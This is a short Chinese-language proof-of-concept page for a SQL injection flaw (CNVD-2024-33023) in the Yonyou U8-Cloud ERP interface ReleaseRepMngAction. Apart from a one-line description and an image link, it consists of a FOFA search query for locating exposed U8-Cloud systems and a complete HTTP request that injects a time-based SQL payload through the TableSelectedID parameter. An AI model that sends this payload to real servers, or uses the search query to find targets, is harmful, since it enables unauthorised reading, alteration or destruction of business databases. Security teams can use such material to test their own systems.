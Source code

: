 # 用友U8-Cloud系统接口ReleaseRepMngAction存在SQL注入漏洞复现(CNVD-2024-33023)

用友U8-Cloud系统接口ReleaseRepMngAction存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa
```javascript
title=="U8C"
```

## poc
```javascript
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.release.ReleaseRepMngAction&method=updateDelFlag&TableSelectedID=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

![image-20241219152517973](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412191525077.png)
